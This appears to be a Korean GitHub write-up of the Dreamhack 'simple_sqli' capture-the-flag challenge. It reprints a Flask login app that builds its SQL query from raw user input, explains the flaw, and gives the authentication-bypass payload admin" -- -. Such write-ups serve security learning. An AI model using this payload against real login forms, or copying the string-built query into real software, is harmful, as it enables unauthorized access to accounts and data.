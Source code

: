 # ❤Simple_Sqli❤
![js](https://img.shields.io/badge/MySQL-00000F?style=for-the-badge&logo=mysql&logoColor=white) ![js](https://img.shields.io/badge/Visual_Studio_Code-0078D4?style=for-the-badge&logo=visual%20studio%20code&logoColor=white)

## 개요
 - dreamhack web카테고리에서 가장 간단한 Sql injection 공격기법에 관한 문제를 풀이한 것입니다.

## Preview
![image](https://github.com/ChCh0i/dreamhack/assets/108965611/f083a7b5-5adf-417f-828f-abea02daae1b)

 - 간단한 로그인폼
## Source
```
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```
 - 소스코드를 보면 userid=admin 일 경우 flag를 읽어들이는것을 확인할수 있습니다.

## 취약점
 - 소스를 보았을때 database를 참조하는것이 아닌 실행될때마다 생성하는것을 확인할수있고 userid=guest&userpassword=guest 와 userid=admin&userpassword={binascii.hexlify(os.urandom(16)).decode("utf8")} 로 처리되는것을 확인할수 있습니다.
 - 취약한 점으로는 sql문에 대한 블랙리스트처리를 안함과 바인드함수 미사용이 있습니다.
 - 두 번째로는 소스코드에 admin이라는 userid 제공에 있습니다.

## payload
 - userid 폼에 더블쿼터를 이용하여 명령문 -- - 를 활용해 userid값을 받고 뒤의 내용들을 주석처리합니다
```
admin" -- -
```
![image](https://github.com/ChCh0i/dreamhack/assets/108965611/1d29d435-25e1-4410-84af-8960dc4e4afc)

